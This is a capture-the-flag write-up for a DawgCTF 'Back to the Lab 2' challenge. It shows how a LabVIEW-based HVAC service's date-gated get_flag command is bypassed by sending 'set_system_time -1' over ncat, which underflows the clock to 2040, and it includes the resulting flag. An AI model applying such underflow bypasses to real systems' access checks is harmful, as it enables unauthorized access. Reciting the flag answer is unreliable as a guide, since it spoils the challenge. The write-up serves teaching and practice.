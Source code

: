 ## 4. Back to the Lab 2 PWN Challenge

> We installed this new HVAC system in the lab using NI instrumentation. Ooh, it's internet-connected. Can you get the flag off of it? It requires "company technician access" but we managed to convince the company to give us some old source code, maybe you can find a workaround?
> nc umbcsad.crabdance.com 8000
> back_to_the_lab_2.vi: https://drive.google.com/file/d/1Bu7xpMiGCEPONd7Hdl6BQL6JXqrFWE6i/view?usp=sharing
> Author: nb

### Process

Open the vi file in LabVIEW Community. It shows a few interesting things:

1. A TCP service accepting connections and then taking commands from the client.
2. A `get_flag` command which only be run by a privileged user -or- when the system date is after 2030 👀
3. A `set_system_time` command to set the system date.

Attempts to set the system time to large value gets blocked. Setting the system time to `-1` works, and results in an underflow which sets the date to 2040.

Now the `get_flag` command returns the flag.

```shell
ncat umbcsad.crabdance.com 8000
Welcome. Type ? for help.
DAWG> set_system_time -1
Done. New system time is: "01:28 AM Mon, Feb 06, 2040"
DAWG> get_flag
DawgCTF{t1m3_b3ck0n1ng_m3}
DAWG>
```
